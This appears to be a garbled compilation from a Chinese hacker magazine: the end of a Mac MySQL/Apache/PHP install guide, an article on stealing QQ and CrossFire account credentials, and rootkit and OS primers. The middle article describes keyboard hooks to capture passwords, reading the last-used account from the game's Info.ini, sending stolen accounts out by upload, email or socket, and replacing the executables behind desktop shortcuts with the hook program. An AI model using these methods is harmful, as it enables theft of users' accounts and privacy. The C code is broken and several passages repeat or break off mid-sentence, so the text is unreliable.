按提示操作：按回车（原密码为空），输入y并回车（确认设置新密码），输入两遍密码，输入y并回车（移除匿名账号），输入y并回车（禁止远程登录root），输入y并回车（删除test库），输入y并回车（重新加载设置）。ok！这时，mysql安装完毕。（如图13,14）
### 尚待解决的问题

- 1. **root帐号是系统最高权限（类似与Windows下system）**，密码一定要设置好，平时工作不要用root，以防对系统造成破坏。
2. **mysql中的root代表mysql中的最高权限**，请对这两个root进行区分，不要混淆。

且关键的数据仓库已经建立，但我们发现，mysql中的root账号已经有了密码（如图15），而按照官方说法，root密码应该为空，这是很奇怪的问题。为了解决，所以我才不厌其烦地让大家把它重建。
mysql库删掉，重新建立。这个密码到底是什么？此时如果录下。（如图19）打开终端，执行：不重建mysql库，应该怎样登陆？这都是需要思考的问题。

- （2）mysql自动启动的问题。同样按照官方的说法，我让大家装的第二个安装包就是管自启动的。但事实上mysql并没有自动启动，启动时出现（如图16）的提示，还是十分纠结的。系统偏好设置的mysql面板上的那个复选框也是不管用的。我试了很多方法都不起作用（可能是我对Mac系统了解不够深入），所以只好作罢，留给大家解决。
打开Safari，浏览 http://localhost（如图20），安装完毕。

```bash
cd /httpd-2.2.17/
./configure --prefix=/usr/local/apache2
make
make install
cd /usr/local/apache2
bin/apachectl -k start


```
### 4. 安装apache

可算安装完了，喝杯咖啡，继续装apache（仍然在root下）。
将就凑合型是怎么装的？对！是利用已有的Apache装的，我们现在要自己动手，就应该把Mac自带的删掉。打开Finder，找到菜单中的“前往→前往文件夹”，输入/usr/sbin，找到以下文件：ab、apachectl、apxs、htpasswd、httpd，均到废纸篓里。同理，前往/etc，把apache2扔掉。再前往/usr/libexec，把apache2扔掉。清倒废纸篓（如图17）。
### 5. 安装PHP

安装PHP需要适时安装额外软件，安装比较麻烦。仍然打开Safari，浏览http://www.php.net/downloads.php，找到最新版本（如图21），选个镜像，拖回来。解压开，得到源码，把源码copy到根目录下。
```bash
打开终端，输入：
cd /php-5.3.5
./configure '--prefix=/usr/local/php' '--with-apxs2=/usr/local/apache2/bin/apxs' '--enable-mbstring' '--enable-mbregex' '--without-iconv' '--with-ldap=/usr' '--with-kerberos=/usr' '--enable-cli' '--with-zlib-dir=/usr' '--enable-transsid' '--enable-'
```

```
exif' '--enable-ftp' '--enable-dbx' '--enable-sockets'
'--with-iodbc=/usr' '--with-curl=/usr' '--with-config-file-path=/etc' '--sysconfdir=/private/etc' '--with-mysql-sock=/var/mysql' '--with-mysqli=/usr/local/mysql/bin/mysql_config' '--with-openssl=/usr' '--with-xsl=/usr' '--without-pear' '--with-gd=/usr/local/lib' '--with-png-dir=/usr' '--with-gif-dir=/usr' '--disable-simplexml'
```

报错：configure: error: libpng.(a|so) not found。所以上网上找libpng，解压开，copy出来，再开一个终端（在刚才的九个终端里按command-N，新的以下简称终端2，原来的简称终端1）执行：

```
cp scripts/makefile.darwin makefile

make

make install
```

回到终端1，重新执行configure，还报错，这次是gd库找不到，那就安装gd库，下好gd，拷贝好，切到终端2，执行：

```
cd /gd-2.0.35/

./configure

make

make install

cp gd.h /usr/local/lib
```

回到终端1，重新执行configure，（台下齐呼：又报错了？）这回成功了（……），那就开始make，这回把终端2关掉，在终端1执行：

```
make

make install
```

用finder找到/usr/local/apache2/conf/，编辑httpd.conf，在后面加上：

```
AddType application/x-httpd-php .php

AddType application/x-httpd-php-source .phps
```

保存好，到终端里执行：

```
/usr/local/apache2/bin/apachectl -kstart
```

OK了，下面进行进一步的设置

配置主目录：还是在httpd.conf，找到DocumentRoot "/usr/local/apache2/htdocs"，把里面的目录换成你自己的，再找：<Directory "/usr/local/apache2/htdocs">，按照说明，这里的目录应该和DocumentRoot一致，修改好。

配置首页：找到DirectoryIndex index.html，这个就是查找主页的顺序，换成：DirectoryIndex index.php, index.html。存上，重启apache。

```
/usr/local/apache2/bin/apachectl -krestart


```

开始enjoy吧！

#### 四、后记

- 1. 在安装PHP时，错误是一个接一个的，修改是不断的，出现问题不要气馁，可以google，也可以在论坛发帖求助，我会为大家尽力解答
2. 如果想升级php，直接下载新的，重新编译即可。如果想升级apache或mysql，除了要按这个方法做之外，还应重新编译php，而且要全新的源代码，不能是编译过的，切记。重新编译时那些小组件（像gd等）就不用重新编译了。

> > （文章中所涉及到的程序包及代码已经收录在光盘中）

## QQ账号旁敲侧击

DreagonWoo

### 一、一个思路

在中国QQ是较早出现的即时通讯软件，QQ以它的方便快捷易操作性被广大中国网络用户所使用，已经拥有庞大的用户量，凭借用户量底子腾讯才敢于掀起去年的“3Q风波”。随着腾讯公司的发展，从原来单一的QQ通讯业务逐渐向其他软件服务方向发展，从最开始的在QQ聊天界面上添加QQShow，QQ空间，QQ邮箱功能，与电信运营商联合

推出移动平台QQ，以及校友、微薄网络平台，到自己开发或代理网络游戏，涵盖面之广可以看到腾讯公司真的强大了。

腾讯给用户的唯一标识仅是QQ账号，用一个账号即可开通以上所有服务，方便的同时带来了安全隐患。家里的院子越是宽敞，贼就有越多的墙可供选择。比如用户使用QQ校友时都乐意写上自己的真实信息，为使用社会工程学的人

提供了极好的信息。多款代理软件未必都能像QQ一样很好的保护用户的账户，任何一款软件的安全措施做得不当，我们的账号和密码就将可能被心怀不轨份子盯上，个人隐私受到威胁。我今天要讲的就是通过腾讯的代理软件获取QQ账户和密码。

### 二、钩子疯了

编程的小菜们喜欢用消息钩子（Hook）记录键盘上的操作，希望可以通过钩子得到用户的账号和密码信息，通常情况下钩子的功效还是显而易见的，但其中也存在一些无奈。

感觉钩子似乎可以遍行天下的时候，心蹦蹦地直跳着拿QQ来测试，正要输入密码时候运行钩子的程序连续捕获到的键盘输入的字符在界面上显示，我按下某按键钩子程序又捕获不到正确的键值。其实QQ只是用了一些简单的方法而躲过了钩子，我们那个人门级的钩子略显力道不够了，需要将钩子升级，升级钩子的过程就不这么简单了，不能因为腾讯出了一个脑筋急转弯似的小学数学题就让用高数来解决。所谓条条大路通罗马，接下来我就用这个简单的钩子掉CF去。

在CF登录界面启动后挂上键盘消息钩子，可以轻松记录用户的密码，反而不容易获取用户账号。为什么？软件是为懒人所编写的。登录程序自动填入上一次成功登录的用户账号，所以如果这次用户就是上一次登录的用户，我们将无法获取到本次用户账号的输入，记得以前的QQ飞车也是一样为用户想得周到。似乎我们又得绕到去罗马了，但用不着绕太远，我们还是从CF这扇门进去。我提供两种可行的方法。

第一种方法写出的代码含金量比较高，通常被牛人所用——图像识别。严格来讲还不算什么图像识别，对于固定形状的账号输入框，我们只需要保存0-9数字的位图，逐个数字比对即可。相比以前我做的从照相机识别图像容易得多，高数我只懂得XY，搞了半个月也就识别出简单的三角形，程序认为圆形和矩形是一家的。

第二种方法属于像我这种什么都略懂略懂的入门级人物——寻找游戏配置文件。打开CF安装路径..\CrossFire\config下有个Info.ini文件，文件第二行记录了上一次登录的用户账户LastQQUin=xxxx，读取文件的xxxx信息是我们的目的。为找到这个配置文件我需要进行全盘搜索来定位游戏安装目录。

### 三、实现方法

下面我就着重讲解全盘搜索到读取账号的实现方法。首先需要逐个盘符的搜索，搜索条件仅限于exe文件，为搜索到的文件信息建立一个链表，从链表中寻找我们需要的文件路径，我使用的关键字是crossfire.exe，在安装路径基础上写入人相对路径读取Info.ini文件（如图1）。
获取盘符数目和标识使用下面的代码实现。

```c
//扫描系统所有盘符
int ScanDisk(int (*pdisk)[26])
{
    int i, ret = 0;
    for(i = 0; i < 26; ++i) {
        (*(pdisk))[i] = _chdrive(i+1); //盘符是否存在
        if((*(pdisk))[i] == 0) {
            ret++;
        }
    }
    return ret; //返回盘符数目
}
```

盘符搜索的任务交给SearchAllDir函数去完成，SearchAllDir有4个参数：

- 1. char *basePath：搜索根目录，直到最底层目录为止。本代码里传递上面扫描到的盘符。
2. char *condition：搜索条件，可以像控制台一样使用通配符*和?进行条件过滤。本代码里传递*.exe
3. CLinkList* output：输出链表结构类，用于记录和维护所有输出内容，这里不能详细说明它的用法，知道就好。
4. int *threadActive：函数兼容线程调用，多线程状态时可以通过这个参数来控制搜索任务的启动与终止，并且通过STSearchFile结构的指针传递给SearchAllDir函数。


# 配的文件或目录

```c
typedef struct _STSearchFile
{
    char bestDir[MAX_PATH];
    char condition[MAX_PATH];
    ClinkList *pout;
    int threadActive;
} STSearchFile;
```

SearchAllDir函数有condition参数，需要代码有过滤功能化的去过滤无关的内容，我的脑子可没那么好使，写出来的过滤代码一定冗余臃肿，我们搞程序的不能在一颗树上吊死。SearchAllDir函数里调用过微软的API函数FindFirstFile函数，本着“拿来主义精神”用它去实现条件过滤。FindFirstFile函数如果给他的搜索条件是*，那么它将返回该目录下的所有文件和文件夹，我可以很容易从文件属性里区分其中谁是文件夹，从而为子文件夹的搜索做准备。当传递*.exe时它将返回该目录下的所有exe文件。

我搜索同一目录两次分别传递上面过滤条件，虽然做了些重复的事情给人感觉代码效率不高，要让我在“懒惰”和“效率”上作出选择的话，我选择“有效率的懒惰”。

SearchAllDir函数代码如下：

```c
int SearchAllDir(
    char *basePath,
    char *condition,
    ClinkList *output,
    int *threadActive)
{
    HANDLE hfile;
    WIN32_FIND_DATA fileInf;
    // 目录句柄
    DWORD ret;       // 错误掩
    ClinkList subdirList(NULL, NULL); // 本层子
    SSubDir *subdir;
    char *pdirFile;  // 本层中

目录嵌套：
    SLinkNode *pnode; // 本层子
    SSubDir *subdir;  // 本层中
    SFileInf *pdirFile; // 本层中

    DWORD dwold;
    char tbasePath[MAX_PATH]; // 临时变量
    char path[MAX_PATH];     // 子目录

    // 完全路径
    // Step 1:
    // 搜索当前目录下的所有文件夹
    strcpy(tbasePath, basePath);
    strcat(tbasePath, "\\");

    hfile = FindFirstFile(tbasePath, &fileInf);
    if(fileInf.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
    {
        ATTRIBUTE_DIRECTORY
        && *fileInf.cFileName != '.';
        SubDirList.AddNode(sizeof(SSubDir), &pnode);
        strcpy(subdir->name, fileInf.cFileName);
    }

    ret = FindNextFile(hfile, &fileInf);
    FindClose(hfile);

    // Step 2:
    // 搜索当前目录下与条件匹配的文件和文件夹
    strcpy(tbasePath, basePath);
    strcat(tbasePath, "\\");
    strcat(tbasePath, condition);

    ffile = FindFirstFile(tbasePath, &fileInf);
    if(hfile == INVALID_HANDLE_VALUE)
    {
        goto _NextLevel;
    }
    while(ret != 0)
    {
        // 搜索所有文件，搜到文件夹
        if(fileInf.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
        {
            ATTRIBUTE_DIRECTORY
            && *fileInf.cFileName != '.';
            SubDirList.AddNode(sizeof(SSubDir), &pnode);
            strcpy(subdir->name, fileInf.cFileName);
        }
        ret = FindNextFile(hfile, &fileInf);
    }

    // Step 1:
    // 搜索当前目录下的所有文件夹
    strcpy(tbasePath, basePath);
    strcat(tbasePath, "\\");
    strcat(tbasePath, condition);
    ffile = FindFirstFile(tbasePath, &fileInf);

    if(hfile == INVALID_HANDLE_VALUE)
    {
        return 1;
    }

    while(ret != 0)
    {
        // 搜索所有文件，搜到文件夹
        if(fileInf.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
        {
            ATTRIBUTE_DIRECTORY
            && *fileInf.cFileName != '.';
            SubDirList.AddNode(sizeof(SSubDir), &pnode);
            strcpy(subdir->name, fileInf.cFileName);
        }
        ret = FindNextFile(hfile, &fileInf);
    }

    ret = 1;

    while(ret != 0) {
        if (fileInf.fileName != '.')
            && LL_RUNOVER != output
        {
            LL_NEXT_NODE(pnode, subDir, sSubDir);
            // 获取下一个结点
            ++i;
            while(j <= subDirList.m_length) {
                ret = FindNextFile(file, &fileInf);
                return 0;
            }
        }

        >AddNode(sizeof(SFileInf), &pnode) {
            LL_CURRENT_;
            NODE(pnode, pdirFile, SFileInf);
            memcpy((void*)&pdirFile->fileData,
                   &fileInf,
                   sizeof(WIN32_FIND_DATA));
            strcpy(pdirFile->fullPath, basePath);
            ret = FindNextFile(nfile, &fileInf);
        }

        FindClose(hfile);

        //Step.3:
        //逐个选归子目录查找
        _NextLevel;
        if (subDirList.m_length <= 0) {
            return 0;
        }
        pnode = subDirList.m_phead->next;
        //获取第一个结点
        LL_CURRENT_NODE(pnode, subDir, SSubDir);
        //获取当前指点
        do {
            strcpy(path, basePath);
            strcat(path, "\\");
            strcat(path, subDir->name);
            //线程方式调用和直接调用处理
            if (threadActive != NULL && *threadActive == THREAD_RUN) {
                SearchAllDir(path, condition, output, threadActive);
            } else if (threadActive == NULL) {
                SearchAllDir(path, condition, output, threadActive);
            }
        } while (...);
    }
}


```

经过一番的查找在我的计算机里搜索到2602个exe文件（如图2）。很多exe文件都不是我所需要的，需要从2602个文件里筛选出那些我感兴趣的exe文件，最终筛选出12个目标文件，并得到他们的完全路径（如图3）。

| 搜索系统所有exe文件，并记录感兴趣的12个目标文件 |
|---|
| 当前搜索所有盘符：c d e f |
| 开始扫描盘符：c：\Program Files\Tencent\QQ\Bin\QQ.exe |
| 开始扫描盘符：c：\Program Files\Tencent\QQGame\QQGame.exe |
| 开始扫描盘符：e：\Program Files\Online Mobile\Petion\Petion.exe |
| e：\Game\CrossFire\crossfire.exe |
| c：\Program Files\Internet Explorer\IEXPLORE.EXE |
| c：\WINDOWS\system32\cmd.exe |
| c：\WINDOWS\system32\calc.exe |
| c：\WINDOWS\NOTEPAD.EXE |
| c：\WINDOWS\system32\notepad.exe |
| c：\Program Files\Kingsoft Software\WPS\wps.exe |
| d：\Program Files\Wiliangwang\qililf.exe |
| d：\Program Files\Microsoft Visual Studio\Common\MSDev.exe |
| 所找到的目标 | 完整路径 |
|---|---|
| k | `\Program Files\Tencent\QQ\Bin\QQ.exe` |
| k | `\Program Files\Tencent\QQGame\QQGame.exe` |
| e | `\Program Files\Online Mobile\Petion\Petion.exe` |
| e | `\Game\CrossFire\crossfire.exe` |
| c | `\Program Files\Internet Explorer\IEXPLORE.EXE` |
| c | `\WINDOWS\system32\cmd.exe` |
| c | `\WINDOWS\system32\calc.exe` |
| c | `\WINDOWS\NOTEPAD.EXE` |
| c | `\WINDOWS\system32\notepad.exe` |
| c | `\Program Files\Kingsoft Software\WPS\wps.exe` |
| d | `\Program Files\Wiliangwang\qililf.exe` |
| d | `\Program Files\Microsoft Visual Studio\Common\MSDev.exe` |
下面是说明另一个结构STargetFind。C程序仅仅是图2中的12个目标文件之一，具体问题具体分析，不同的目标文件进行不同的操作，操作的过程就在STargetFind结构里定义。

```c
//目标程序结构
typedef struct _TargetFind
{
    char name[30];          //目标文件
    char path[_MAX_PATH];   //文件路径
    char nextpath[_MAX_PATH];//相对路径
    char flag;              //下一步动作分类
} TargetFind;


```

最后通过读取Inf.ini文件我们就可以通过CF这扇大门拿到用户的账号了，并且我同时也获取到以前曾在本机使用QQGame的用户账号（如图4）。
# 四、还有一些骗招

当我们获得用户的账号如何处理就是个人的处理问题了，可以上传到某网站上去，可以用发送邮件的方式，还有用我擅长的socket建立TCP/IP连接。另外再给我们那个简单的钩子的启动时间提个思路。

一般的方法是做个任务管理器的功能模块，定时寻找系统进程查看是否有我感兴趣的软件运行，如某找到就把这个软件给Kill掉，当然不能连续的Kill，几天或几个月的Kill一下即可。用户会再次启动程序同时鸽几可脏踏咱，亦学语文老师没教好我不怪他，挂上钩子去获取了事。

另一种方法就使用利用今天的全盘搜索功能去找用户自己启动我们的钩子程序，而不需要任务管理器模块。如何实现？聪明的你应该想到了，大多数用户方了方便启动程序在桌面设置快捷方式，竟然如今我们有能力找到文件的路径，那么为什么不将文件给替换掉，只需改掉钩子程序的名字，当用户点击快捷方式的时候就启动我们的钩子程序，钩子程序启动同时把真实的exe文件也运行即可。使用这种方法成为了保险起见还是读取快捷方式*.lnk文件里面的内容，保证快捷方式指向文件与我们钩子所替换的exe文件一致，因为有些人一个软件可能多次安装到不同的路径下。实际全盘搜索exe文件的方式可以改成仅仅搜索Administrator目录下搜索lnk文件，但这样一来又需要解读lnk文件格式。

最后在此声明，本文仅供编程及计算机爱好者阅览，请勿对号入座，本人不对他人阅读本文引发的法律问题负责。

# 二、rootkit的基本概念

rootkit这个术语已经存在10多年了。它是由有用的小型程序组成的工具包，使得攻击者能够保持访问计算机上具有最高权限的用户“root”权限，也能够持久或可靠地、无法检测地存在于计算机上的一组程序和代码。

在上述rootkit定义中关键词是“无法检测”。rootkit所采用的大部分技术和技巧都用于在计算机上隐藏代码和数据。例如许多rootkit可以隐藏文件和目录。rootkit的其他特性通常用于远程访问和窃听。例如用于嗅探网络上的报文。当这些特性结合起来后，它们会给安全带来毁灭性的打击。rootkit并非天生邪恶，也并不总是被黑客所使用。

rootkit只是一种技术，理解这一点是很重要的。其好或坏的意图取决于使用它们的人，大量合法的商用程序提供了远程过程管理，甚至窃听功能，有些程序甚至使用潜行技术，这些程序在许多方面都可称作rootkit。rootkit存在的原因和语音窃听一样，人们希望广掘或控制其他人的行为。由于对数据处理的巨大日益增长的依赖程度，计算机自然成为了目标。

只有当希望维持对系统的访问时，rootkit才发挥作用。若要完成的全部功能只是窃取信息然后离开，就不需要rootkit。事实上，留下rootkit总是存在着被检测发现的风险，若窃取了信息并将系统清理干净，就可以不留下任何操作痕迹。

# 第2章 操作系统

rootkit提供了两个主要功能：远程命令和控制，以及操作系统所提供的抽象层，才能够编写出行之有效的软件编听。远程命令和控制（简称远程控制）包括对文件进行控制，导致系统重启或“死机蓝屏”，以及访问命令进行软件开发。这里所谓的系统元关的半台是指，一个公共 shell（即 cmd.exe或/bin/sh），软件窃听就是观察人们在做什么，它包括嗅探报文、截获击键以及阅读电子邮件。攻击系统平台无关。典型的例子是Java语言及其开发平台，这些技术来捕获口令和解密的文件，甚至加密密钥。

为了使各位能够方便的理解本文，接下来我要介绍一些关于操作系统的知识。

## 二、操作系统（OS）

### 2.1 操作系统一般概述

现代的人们大多是这样认识计算机的：一个人盯着屏幕敲打着键盘，这就是在操纵计算机了，于是，屏幕和键盘就成了计算机的代表物了。更进一步了解计算机的人们知道，屏幕和键盘只不过是计算机的输出和输入而已，计算机的核心在一个机箱里，包括处理器、内存、主板、硬盘和电源等。所有这些构成了计算机的有形部分（实际上，这些部件也在越变越小）。再进一步，真正使用过计算机的人们还知道，光是计算机硬件还不够，还需要各种软件，目前用到的软件包括：办公软件、游戏软件、享用软件、上网软件、聊天软件以及防病毒软件，等等。正是有了这些软件，计算机利用起来才这么有趣。所以，虽然软件并不有形（不过，存放软件的介质却是看得见摸得着的），但人们知道它们是切实存在的。那么，操作系统（Operating System）是什么呢？

就本质而言，操作系统也是一种软件，只不过，相对于一般的软件而言，有其特殊性。所有的应用软件都建立在操作系统的基础之上，操作系统的发展本身也推动了应用软件的发展。一个众所周知的事实是，Windows操作系统的发展和普及，为大量的应用软件提供了得以存在的平台，各种家用软件也纷纷随之诞生。

操作系统是专门管理硬件资源的软件，计算机硬件本质上只提供计算和存储的能力，而操作系统则利用硬件的计算和存储能力，建立起一个抽象层。在现代操作系统中，这一抽象层包括任务或进程（或线程）、文件、设备或字节流等诸多概念以及相应的功能。基于操作系统所提供的抽象概念和功能，应用程序能够方便地完成其功能，并且无需直接操纵计算机的硬件。而且，现代操作系统也提供了多个任务共享硬件资源的能力，所以，应用程序并不独占硬件资源，而是以某些既定的方式来共享，这也为用户使用各种应用软件提供了极大的便利。

### 2.2 计算机系统的硬件资源管理

操作系统管理哪些硬件资源，分别又是怎么管理的呢？最主要的资源是计算资源和存储资源。计算资源即CPU（Central Processing Unit，中央处理单元），现在主流的计算机通常有一个或多个CPU，或者一个CPU中有多架核（即多核CPU）。从操作系统的角度看，有多个CPU或一个多核CPU意味着可以同时执行多个任务。所以，操作系统必须合理地安排和调度任务，使得多个CPU或多核心能够被利用起来，避免出现竞争或闲置的情形。在支持多任务并发的操作系统中，这一职责称为任务调度。在现代操作系统中，由于任务是由进程或线程来完成的，操作系统的这部分功能也称为进程调度或线程调度。因为任务的数量可能超过CPU或核心的数量，所以，多个任务可能共享同一个CPU或核心，这就需要有一种硬件机制能够让操作系统在不同的任务之间实现切换，这是任务调度的硬件基础。通常，计算机提供的时钟中断可以让操作系统很方便地做到这一点，也就是说，硬件系统会触发一个中断，操作系统截获此中断，按照某种算法暂停当前正在执行的任务，并选择一个新的任务，从而实现任务的切换。到下一个时钟中断到来时，再继续这样的切换过程。因此，多个任务可以在一个CPU或核心中被轮流执行。操作系统可以设定时钟中断间隔的长度，也可以选择不同的算法来安排这些任务被先后执行，这样就形成了各种不同的调度算法。

存储资源通常包括内存（RAM，随机访问存储器）和外存（也称为辅助存储器）。外存是通过标准的I/O（输入/输出）来管理的，而内存是CPU直接通过系统总线来访问的。内存是CPU执行一个任务的物质基础，CPU内部的寄存器具有计算的能力，但计算的数据从哪里来呢？除了寄存器和存储能力，建立起一个抽象层。在现代操作系统中，这一抽象层包括任务或进程（或线程）、文件、设备或字节流等诸多概念以及相应的功能。基于操作系统所提供的抽象概念和功能，应用程序能够方便地完成其功能，并且无需直接操纵计算机的硬件。而且，现代操作系统也提供了多个任务共享硬件资源的能力，所以，应用程序并不独占硬件资源，而是以某些既定的方式来共享，这也为用户使用各种应用软件提供了极大的便利。

在支持多任务的系统中，若所有任务的内存需求加起来的总量超过了当前系统的物理内存总量，那么，系统要怎么办？操作系统可以把进程中暂时不用的内存页换出到磁盘上，腾出物理内存供其他任务使用；当被换出的内存页再次被访问时，再从磁盘换回内存。这就是虚拟内存管理。不同的硬件体系结构可能支持不同的方式。Intel x86体系结构同时支持段式寻址和页式虚拟内存映射，但是，可在Intel x86上运行的操作系统几乎都选择了虚拟内存映射作为内存管理的硬件基础。Windows和Linux便是典型的例子。

# 黑客们研究院

停掉一些任务，要么把一些任务转移到外存（如磁盘）中，以后当内存空闲时再把这些任务转换回来。或者系统有选择地把部分不常用的内存转换到外存，并且根据适当的规则将它们再慢慢地转换回来。虚拟内存的映射以及物理内存不足时的换出和换入操作，这都是操作系统管理内存资源的重要任务。前者依赖于硬件提供的机制，而后者则更多地由操作系统自己来控制。

除了计算资源和内存资源的管理以外，操作系统对其他资源都通过I/O来管理。例如，上面提到的外存资源，像磁盘，在现代计算机中是不可或缺的部件；另外，键盘和鼠标通常是标准的输入设备，而显示器和打印机往往是标准的输出设备。操作系统为了跟I/O设备打交道，需要三方面的技术保障：CPU通过特定的指令来控制I/O设备，I/O设备通过中断来通知CPU发生了特定的事情，以及在系统主内存和设备之间传输数据。

通常，CPU直接访问设备的寄存器来操作一个设备。在Intel x86系统上，CPU通过in和out指令能够做到这一点。设备寄存器是另一个地址空间，CPU通过I/O端口（I/O port）来访问它们。在现代计算机中，I/O端口的分配跟软件和硬件都有关系。不同的硬件设备会使用不同的端口编号，现代的设备大都可以通过软件方式来设置其端口号，而过去一些老的设备可能需要通过硬件跳线来改变端口号的设置。对硬件设备进行恰当的设置，也是操作系统管理硬件设备的任务之一。

另外，CPU怎么知道或检测设备的工作状态呢？一种做法是，通过不停地查询设备的状态寄存器来获知其工作状态；但是，更有效的做法是，当设备的状态发生变化时，它能够主动地通知CPU，从而操作系统可以采取相应的措施。这后来即是设备中断机制。比如说，当键盘设备接收到按键动作时，它产生一个中断，告诉CPU（和操作系统）当前哪个键被按下了。中断也有编号，中断的编号被视为系统全局资源，在早期计算机的中断控制器中，不同设备的中断号不能冲突，否则设备无法正常工作。

计算机的计算处理能力往往仅限于在CPU内部寄存器和主内存之间进行，但是为了实现基本算术计算以外的其他各种能力，通常有必要让设备中的数据也参与到计算中来。所以，在设备与CPU寄存器或主内存之间传输数据往往是必要的功能。例如，计算机通过磁盘设备可以实现永久存储，通过显示控制器实现彩色显示甚至三维模拟。实现数据传输的方法有多种，如果设备本身的数据量很小，则可以直接接通in指令来读取设备中的数据，或通过out指令输出到设备中。或者也可以映射一段地址范围到设备中，这样，当CPU访问这块地址范围时，实际上是在访问设备的内存，而不是系统的主内存。另外一种适合于大块数据传输的技术是DMA（Direct Memory Access，直接内存访问）。像硬盘控制器和网络控制器就通常采用DMA方式来传输数据，CPU只须设置好数据传输的方向、位置、数量等信息，就可以让设备自行完成数据传输。

以启动DMA传输了。DMA传输可以与CPU计算同时进行，以后当内存空闲时再把这些任务转换回来。但DMA使用的总线不能与CPU使用的发生冲突，它可以在CPU不使用总线的时刻来传送数据，也可能会因此而阻塞CPU指令的执行。DMA传输影响CPU执行指令的程度取决于DMA控制器的传输策略。

从操作系统的角度来看，考虑到I/O设备的多样性和新设备的可能性，操作系统有必要定义一个框架来容纳各种各样的I/O设备，并且允许操作系统发布之后还能够为新的设备提供支持。所以，除了专用操作系统以外，现在操作系统都会提供一个I/O模型，允许设备厂商按照此模型编写设备驱动程序（Device Driver），并加载到操作系统中。I/O模型通常具有广泛的适应性，能够支持各种类型的设备，也包括对硬件设备的控制能力，以及对数据传输的支持。

上为应用程序访问硬件提供了一个标准接口，同时也必须能够让操作系统有效地管理设备驱动程序。在Windows系统中，第三方厂商可以使用Windows的I/O模型来编写与设备驱动程序。Windows本身在发布时，已经内置了大量主流设备的驱动程序，所以，Windows系统在安装阶段就可以自动将识别出来的设备的驱动程序安装到系统中。因此，用户无需手工下载或安装这些驱动程序。另一方面，当与驱动程序需要直接访问硬件设备，它执行的许多指令（包括in和out）是特权指令，所以，驱动程序对于系统的稳定性和安全性有至关重要的影响，操作系统有必要对其执行严格的筛查措施，以避免恶意代码闯入系统中（但实际上这些还远远不够严格）。

### 2.3 软件支持

操作系统之所以要管理各种硬件资源，是为了更好地为上层应用程序提供服务。应用程序并不直接与机器的各种硬件设备及资源打交道，而是运行在一个抽象层上。操作系统提供什么样的语义层，将决定应用程序应该怎么来构建它们的功能逻辑。尽管不同的操作系统对于进程和线程的概念并不完全相同，但是每个任务都应该有它自己的执行环境，即该任务的控制流以及函数调用的层次轨迹（假设CPU的指令体系中支持函数调用的语义）。例如，在UNIX中，一个进程代表了一个应用任务，它记录了该任务的执行状态；在Windows中，一个线程代表了一个任务，其中也记录了该任务的执行状态。现代操作系统都支持多个任务并发执行，而每个任务的数量可以远远大于CPU或核的数量，所以，每个任务实际上只是分到了部分CPU执行时间，多个任务可以共享一个CPU。因此，在这种多任务操作系统模式下，操作系统实际上只是分割了CPU执行时间，多个任务共享一个CPU。

除了为每个任务（进程或线程）维护好其状态以外，还必须有恰当的算法来决定什么时候让哪个任务执行，什么时候暂停一个任务。正如前面所提到的，这便是任务调度，或者称为进程调度或线程调度（取决于操作系统是以进程还是线程的方式来管理任务）。简单地轮流执行每个任务，这种调度算法往往难以满足实际应用程序的各种需求。通常操作系统会采用基于优先级的抢占式调度算法，甚至根据任务的各种特性进行优先级的动态微调，这使得任务调度算法趋向于复杂化。Windows的
线程调度方案属于这一类型。

其次，在支持多任务的基础上，如果这些任务是相互独立的，则操作系统总是可以采用适当的方式让它们获得执行机会，但在实践中，应用程序为了实现各种功能逻辑，不同任务之间往往有一些逻辑上的关联性。比如，任务之间必须强加某种时序关系，才能保证每个任务的状态是有效的；当多个任务竞争某些稀有资源（注意，系统的硬件资源，像打印机和显示器等，是共享的）时，系统必须确保这些任务有序执行。所以，凡是存在共享资源的地方，操作系统都必须提供恰当的方法来同步应用程序对它的访问。现代操作系统通常会提供多种同步机制，例如互斥体(mutex)、信号量(semaphore)、临界区(critical section)等。应用程序可以有选择地使用这些同步机制，以确保多个任务有序地共享资源。

除了任务和同步的概念，每个应用程序还必须有它自己相对独立的执行空间。在现代操作系统中，进程也代表了一个应用程序和它的执行空间。不同进程的空间是相互隔离的，这是现代操作系统的基本需求。操作系统必须在处理器的硬件特性基础之上，实现一套行之有效的空间隔离方案。每个进程有它自己的内存空间，并且无法直接访问其他进程的内存空间。进程之间如果要共享数据，则必须通过操作系统提供的机制来进行。Intel x86体系结构上的操作系统基本上都利用硬件的虚

拟内存映射机制来隔离每个进程的内存空间。所以，操作系统的中间件（middleware），也可能只是随编译器而定的一个单独的职责是为每个进程维护好从虚拟地址到物理地址的映射关系，并且管理好物理内存的分配和回收。另一方面，除了发行版本包含大量这样的中间模块（例如COM/COM+、Win-sock2、.NET等），它们也成为了Windows的一部分。操作系统还必须提供相应的机制让不同进程的空间隔离性，操作系统还必须提供相应的机制让不同进程可以相互通信，毕竟，很多软件需要进程之间的协作来完成一些上层功能。同步机制和跨进程地共享内存是典型的进程间通信（IPC, Inter-Process Communication）手段。

## 三、内核rootkit

### 3.1 简述

前面提到，现代操作系统往往以统一的框架来管理I/O设备，这也隐含了操作系统向应用程序暴露的I/O接口是统一的这样一层意思。应用程序通过此接口来访问系统的外部设备，而操作系统不仅要管理好应用程序访问外设的各种请求，包括它们的时序，还必须将应用程序的请求发送到对应的设备驱动程序中，最终由设备驱动程序来处理这些请求，而处理的结果也必须以某种方式回送给应用程序。操作系统通常以句柄（handle）来代表一个可访问的抽象设备，抽象设备可能与物理设备连接，也可能并不存在对应的物理设备或资源。操作系统还提供在一个句柄上读（read）、写（write）数据，以及发送控制命令的能力。所以，应用程序与系统设备打交道的方式非常简洁明了：打开设备获得句柄，向设备发送命令，读或写设备，以及关闭设备。操作系统的任务是管理这些设备和驱动程序，以及传递或解释应用程序的命令。

所有类型和规模的计算机上都安装了软件，其中绝大多数都具有操作系统（Operating System，OS）。操作系统是一组核心软件程序，能够为计算机上的其他程序提供服务。许多操作系统都是多任务的，允许多个程序同时运行。不同的计算设备可以使用不同的操作系统。例如，PC机上应用最广泛的操作系统是微软公司的Windows。Internet上大量服务器都运行Linux或Sun公司的Solaris系统，许多机器则运行Windows。嵌入式设备通常运行VxWorks操作系统，许多蜂窝电话则使用Symbian系统。

